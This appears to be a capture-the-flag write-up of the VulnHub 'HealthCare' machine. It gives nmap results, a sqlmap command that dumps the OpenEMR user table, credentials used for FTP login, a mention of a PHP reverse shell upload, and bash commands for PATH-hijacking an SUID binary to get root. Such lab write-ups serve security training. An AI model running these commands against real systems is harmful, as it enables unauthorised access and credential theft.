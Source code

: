 ```yaml
---
layout : post
title: HealthCare
image : At0micenergy.jpg
date: 2021-03-01 04:43 EST

tags: [sqlmap,PathHijacking Linux,php File Upload]
---
```


# Nmap

```
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
|_http-title: Coming Soon 2
MAC Address: 08:00:27:12:B9:5A (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

```
# Enumeration

<h3>Gobuster</h3>

![]({{site.baseurl}}/img/vulnhub/EVM1/gobutser.png)

found openemr // lead to sql injection at login page 

# Exploitation 

```
sqlmap -u http://10.0.2.37/openemr/interface/login/validateUser.php?u=admin -D openemr -T users --dump

```

![]({{site.baseurl}}/img/vulnhub/EVM1/sqlmap.png)

from `sql creds` , logged into `ftp`

```
medical : medical 
ackbar : admin 
```

![]({{site.baseurl}}/img/vulnhub/EVM1/ftp.png)

uploaded php shell into `var/www/` folder 

got reverseShell 

# Privilage Esclation 

from suid , healthChecker is executing the fdisk , ipconfig without path 

![]({{site.baseurl}}/img/vulnhub/EVM1/suid.png)

can override the  `ifconfig` , path 

The program is vulnerable because we control the PATH and the program doesn’t use the absolute path to execute the programs so we can execute anything we want as root. To get root I’ll just create a script that sets the SUID bit on /bin/bash, name it fdisk and call /usr/bin/healthcheck after setting the path to my current directory so it doesn’t execute the real fdisk program but my own script

```bash
cd /tmp 

echo "/bin/bash" > ifconfig

chmod +x ifconfig

export PATH=/tmp:$PATH

/usr/bin/healthcheck

//got root access

```



![]({{site.baseurl}}/img/vulnhub/EVM1/root.png)